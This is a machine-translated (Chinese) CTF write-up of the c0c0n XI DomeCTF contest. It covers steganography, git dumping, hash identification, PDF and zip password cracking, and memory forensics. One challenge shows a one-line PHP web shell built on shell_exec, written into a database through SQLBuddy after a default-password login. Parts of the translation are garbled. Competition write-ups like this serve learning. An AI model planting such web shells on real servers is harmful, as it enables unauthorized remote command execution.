# Xi·CTF 报道

> 原文：<https://infosecwriteups.com/c0c0n-xi-ctf-writeup-875a15d2df69?source=collection_archive---------0----------------------->



# 关于 XI

c0c0n 是一年一度的国际网络安全、数据隐私和黑客会议，由国际公私合作组织主办，由网络空间治安协会(POLCYB)牵头，与信息安全研究协会(ISRA)、技术公司集团(GTec)和喀拉拉邦 IT Mission 联合举办。

# 夺旗

这次夺旗比赛由 [**AppFabs**](https://www.appfabs.com/) 和 [**喀拉拉邦警方 Cyberdome**](http://www.cyberdome.kerala.gov.in/) **组织。**

## 登记

注册非常简单，因为组织者记下了我们的名字和联系方式，给了我们规则和在 CTF 平台验证注册所需的哈希码，以及一个非常酷的徽章



平台界面

每队由 2 名队员组成，平台提供基于网络、加密、取证、杂项的挑战。

比赛于 2018 年 5 月 10 日上午 10 点开始，当时约有 35 支队伍注册了比赛。唷，这是我第二次参加 CTF 比赛，人真多，

## **挑战**

在这个文件中，我们有一个包含一些内容的 zip 文件，我们提取该文件并找到 3 个图像文件，



通过运行字符串，在文件中嵌入了一个 txt 文件。使用 binwalk 我们提取了文件，旗帜被一分为三并嵌入到图像中

**domectf { vuotdsj 1 b 7 pw 6 xueuu 9 RFP 9 ufrn 3g 6 vk }**还有就是这个标志



这是一个指向登录页面的网络挑战



当我的队友在登录中寻找问题时，我在 url 上运行了一个 dirb，返回了一些好的东西



。所以我们尝试用 gitdumper 来转储 git 目录的内容



我做的第一件事是检查提交日志，但组织者通过更改头来增加难度，这返回了一个错误，尽管我试图纠正错误，但我失败了 Hmmm 可以做什么，有一个名为 gitextractor 的工具，它扫描 git 目录并从提交中提取文件



旗



这个挑战提供了一大串数据(Base64 ),经过多次编码和解码，我们得到了一个不寻常的东西

**$ 9 $ gquqatohsetz 6 atuhcvwlnyohqfqf 6 ctrv 8 xbwq。pqnc 1 rskwxtuyewldvftz 9 tyrv 8 x-tuk w8 LBW . MF 56 cres rem 5 qlv 7 bwqz 3 nporhyrvl 7-PQF/OB**

我们检查了 hashcat 示例，它返回了 CISCO hash



那不是大麻，是杜松大麻



哈哈，这花了一些时间



这个挑战有一个密码保护的 pdf 文件，我们必须找到它的密码，我们尝试了 pdfcrack 和我们武器库中的各种工具，但没有有效的密码，为了改变我们尝试了 CTF 的名字(domectf ),每个解决它的人都应该面对自己



这个挑战非常有趣，因为挑战类型显示为“base ”,我们所要做的就是执行代码，将团队名称写入/tmp/DOMECTF_BASE，并防止其他团队知道它，当正确完成时，团队每 5 分钟左右获得 1 分(如果我错了，请纠正我)+200 分的基础分



尝试了 dirb 和其他工具没有什么有趣的时间来启动 BURP 套件，我对它运行了蜘蛛，它找到了一个登录到 SQLBUDDY(凌晨 2 点@晚上)



用户名是根和密码，我们不得不猜测，并找到了密码，即密码 XD 有效登录



现在我们可以执行代码了，但是我们遇到了一些问题。经过几个小时的思考，我们发现组织者阻塞了一些功能，比如 system。唯一通过的是 exec 和 shell_exec

我们创建了一个数据库和一个插入了**和<的表？php echo shell_exec($_GET['e']。2>&1’)；？>** 作为值，文本作为数据类型，现在要得到一个 shell，我们需要做的就是将它导出到一个 php 文件中



代码执行

我们将我们的团队名称写入 DOMECTF_BASE 文件，现在我们必须保护它，所以我写了一些蹩脚的代码，自动登录到 SQLBUDDY，创建数据库并完成其余的事情，虽然我的代码在几个方面失败了，但正是 sreehari 的技能让我们保护了基地，



这个挑战非常令人沮丧，因为链接指向一个大约 300MB 的 7z 文件。问题是在活动中有太多的网络问题，我花了 3 次尝试才完成下载

根据我在 hackthebox 中玩 CTFs 的经验，我立刻知道这是一个内存转储，所以我们需要从中提取数据，所以我使用了一个名为 foremost 的工具，这是一个取证工具

转储了大量的数据



在提取的数据中搜索包含受密码保护的标志的 zip 文件

在之前的截图中，很明显内存来自 windows 机器。现在为了找到密码，我们用不同的单词列表尝试 fcrackzip，但没有给我们密码，所以我确信密码一定在内存转储中，因为这是我第一次使用 volatility

首先，我们必须弄清楚内存转储属于哪个版本的 Windows



这是压缩文件的密码

**domectf { ilko 4k ckg 6 bo 4 qttnm 7 GM 4g R1 qhmdwun }**当我们认为比赛已经结束的时候:(但是我们获得了第四名，这一点也不差，与 50 支队伍竞争，最终获得第四名是一个不小的成就。

**这些是我们团队已经解决的挑战，还有更多人将尝试完成剩下的挑战**

感谢我的队友 **Sreehari** 在很多方面帮助了我，感谢团队 **AppFabs** ，祝贺 **RedX** 、 **RedRaptor** 和 **0x00sec** 获得第一、第二和第三名，我还要感谢 [**NetObjex**](https://www.netobjex.com/) 赞助了这场比赛的门票，让我的梦想变成了现实